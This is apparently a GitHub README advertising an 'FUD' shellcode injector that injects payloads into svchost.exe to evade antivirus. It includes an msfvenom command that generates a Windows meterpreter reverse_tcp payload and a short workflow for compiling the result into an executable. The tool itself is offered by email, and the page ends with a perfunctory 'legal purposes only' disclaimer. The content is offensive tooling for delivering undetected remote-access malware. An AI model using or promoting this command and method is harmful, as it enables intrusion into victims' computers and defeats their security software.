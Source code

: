 # Shellcode-Injector
[FUD] Injects Shellcode in Process (even metersploit payloads fud)

https://youtu.be/18cCz6zv5kc

FUD x64 Shellcode injector which injects the shellcode to svchost.exe and makes even a meterpreter fud.

Example:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... LPORT=... -f python 

You put the Shellcode in the script execute the main.py and compile the printed output to a exe, if this script gets executed it bypasses every antivirus and gives you a normal meterpreter shell.

Get it: Blackclone24@proton.me 

Only for Legal Purposes!!!

I am not responsible for any malicious actions...


